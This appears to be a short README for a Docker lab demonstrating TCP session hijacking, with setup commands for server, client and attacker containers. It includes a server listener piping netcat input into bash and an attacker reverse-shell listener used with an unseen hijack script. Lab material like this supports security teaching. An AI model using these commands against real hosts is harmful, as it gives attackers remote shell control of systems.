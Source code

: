 # TCP SESSION HIJACKING

### 1. Create NetOne Network
    docker network create --subnet 10.2.5.0/24 NetOne --driver bridge
### 2. Launch Server Container in Privileged Mode
    docker run -it --privileged --network NetOne --name Server --ip 10.2.5.3 myubuntu 
### 3. Launch Client and Attacker Containers
    docker run -it --network NetOne --name Client --ip 10.2.5.2 myubuntu 
    docker run -it --network host --name Attacker myubuntu
### 4. Create NetCat Listener on Server Container
    nc -l 80 | /bin/bash
### 6. Connect Client to Server
    nc 10.2.5.3 80
### 5. Create NetCat Listener & Launch Hijack From Attacker Container
    nc -lnv 1337 & python3 sniff_and_hijack.py
### 7. Send any message from client to server to hijack the server
### 8. Reverse shell now active in attacker container, move to foreground with
    fg nc
